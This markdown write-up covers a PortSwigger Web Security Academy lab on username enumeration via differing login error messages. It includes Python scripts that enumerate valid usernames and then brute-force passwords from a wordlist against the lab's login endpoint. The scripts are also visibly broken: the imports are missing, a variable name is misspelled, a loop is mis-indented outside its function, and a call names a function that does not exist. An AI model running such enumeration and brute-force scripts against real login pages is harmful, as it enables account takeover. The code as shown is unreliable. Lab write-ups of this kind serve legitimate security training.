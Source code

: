 # Lab-1: Username enumeration via different responses
> Raj Pastagiya | 16/11/2023

## Problem Statement

> This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, the usernames list and password list is given. 
> To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

### Summary
- The issue with authentication lies here in different and unique responses given by the web-application for invalid usernames and passwords separately.
	- The web-application gives "Invalid username" as response for the users that are not part of the web-application, which enables enumerating valid usernames
	- The web-application gives "Invalid password" as response for valid users and wrong password, which enables brute-forcing passwords for valid usernames
#### Looking at the site's response on Login Page
- Giving a potential username:password on the login page as "admin:admin" gives us response shown in below screenshot, which indicates that if we are not a valid user then "Invalid Username" will come as response message
![Invalid Username as Response](./images/01-invalid-username.png)

- Based on this, let's create a simple python script which will use the list of usernames given to us and see if we find any usernames for which this message doesn't come.
	- Here the login request is POST with request payload as:
```
username: "admin"
password: "admin"
```
- We will use "requests" module to send HTTP requests, and then if we don't find "Invalid Username" in response text message then we can be sure that the username entered there might be a valid user. The script looks like below:
```python
#!/usr/bin/python3
#
#
# Imports here

# List of usernames to enumerate.
users = list()

# Read users.lst and store it in a list to be used further
with open("./users.lst", "rt") as userslst:
	for user in userslst.readlines():
		users.append(user.strip())

# request body in dictionary
payload = {"username": "admin", "password": "admin"}

url="https://0a1500fa046ab4f880c3440600630046.web-security-academy.net/login"

validUsers = list()

for user in users:

	print("[*] Trying username", user, sep=": ")
	payload["username"] = user # change the placeholder os username field to the user from users list
	# Send the HTTP POST request to the url
	response = requests.post(url, data=payload, verify=False)
	# check if the "Invalid username" is in the response, if not then valid username
	if "Invalid username" not in response.text:
		print("\t[+] Found valid username", user, sep=": ")
		validUSers.append(user)

print("\n\n[*] Valid Users", validUsers, sep=": ")
```

- Now if we try with the username found by the script, we see a different message saying "Invalid password" like shown in below screenshot:
![](./images/02-invalid-password.png)

- Now we can append to above script and use the found usernames to bruteforce the password based on password list we were given.
- In below script to make the script more easier to understand I have made functions for every requirements. Also the "user_enum()" function is same as the script shared above
```python
#!/usr/bin/python3
#
#
# Imports here

# request body in dictionary
payload = {"username": "admin", "password": "admin"}

url="https://0a1500fa046ab4f880c3440600630046.web-security-academy.net/login"

# List of usernames to enumerate.
def user_enum():
	# user enumeration script here
	
	return validUsers

def enum_password(validUsers):
	# List of passwords to enumerate.
	passwords = list()

	# Read passwords.lst and store it in a list to be used further
	with open("./passwords.lst", "rt") as passlst:
		for password in passlst.readlines():
			 passwords.append(password.strip())

for user in validUsers:
	payload["username"] = user # change the placeholder of username field to the user from users list
	for password in passwords:
		payload["password"] = password # change the placeholder of password field to the password from passwords list
		# Send the HTTP POST request to the url
		 response = requests.post(url, data=payload, verify=False)
		# check if the "Invalid password" is in the response, if not then valid password
		if "Invalid password" not in response.text:
			print(f"\t[+] Found valid username:password pair {user}:{password}")
			break

enum_password(enum_users())
```

#### \[+] The script is available at [brute-force.py](./scripts/brute-force.py)






